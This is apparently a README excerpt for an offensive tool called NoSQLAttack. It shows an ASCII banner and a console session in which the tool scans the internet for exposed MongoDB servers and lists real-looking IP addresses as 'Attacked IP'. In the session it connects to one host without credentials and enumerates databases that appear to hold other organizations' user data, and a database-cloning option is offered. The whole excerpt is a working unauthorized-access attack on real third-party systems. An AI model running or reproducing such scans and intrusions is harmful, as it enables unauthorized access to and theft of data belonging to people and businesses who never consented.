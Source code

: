```bash
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
```